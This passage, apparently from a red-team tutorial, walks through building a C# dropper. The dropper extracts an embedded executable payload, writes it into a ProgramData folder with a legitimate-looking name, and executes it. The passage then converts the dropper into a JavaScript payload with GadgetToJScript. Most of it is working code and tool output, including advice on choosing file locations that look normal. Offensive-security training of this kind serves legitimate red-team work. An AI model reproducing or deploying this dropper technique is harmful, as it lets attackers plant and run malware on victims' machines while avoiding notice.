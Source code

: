 ```csharp
```

\
The name of the resource must be prefixed with the project's namespace.

Once the payload has been read, it can be dropped somewhere to disk.  Even though it's tempting to do so, executing malicious code from places like a user's home directory or temporary directories is usually a bad idea.  We want to stick to standard locations such as:

* C:\Program Files\\\*
* C:\Program Files (x86)\\\*
* C:\ProgramData\\\*
* C:\Windows\\\*

Of these locations, only ProgramData is writable by standard users.  Let's create a new directory and drop the payload in there.

```csharp
using (var rs = assembly.GetManifestResourceStream("MyDropper.http_x64.exe"))
{
    // get path to ProgramData
    var path = Environment.GetFolderPath(Environment.SpecialFolder.CommonApplicationData);
    
    // construct new path with our dir name
    var newPath = Path.Combine(path, "MyLegitApp");
    
    // create new directory inside ProgramData
    var newDir = Directory.CreateDirectory(newPath);
  
    // construct path for the executable
    var filePath = Path.Combine(newDir.FullName, "MyApp.exe");
    
    // drop the path to disk
    using (var fs = File.Create(filePath))
    {
        // copy resource stream into file stream
        rs.CopyTo(fs);
  
        // close file
        rs.Close();
    }
}
```

he dropper can also execute the payload after it has been written it to disk.

```
// execute it
Process.Start(filePath);
```

Build the project and it will produce `MyDropper.dll`.  The next step is to serialise it using GadgetToJScript.

```powershell
PS C:\Users\Attacker> C:\Tools\GadgetToJScript\GadgetToJScript\bin\Release\GadgetToJScript.exe -a C:\Users\Attacker\source\repos\MyDropper\bin\Release\MyDropper.dll -w js -b -o C:\Payloads\dropper
[+]: Generating the js payload
[+]: First stage gadget generation done.
[+]: Loading your .NET assembly:C:\Users\Attacker\source\repos\MyDropper\bin\Release\MyDropper.dll
[+]: Second stage gadget generation done.
[*]: Payload generation completed, check: C:\Payloads\dropper.js
```
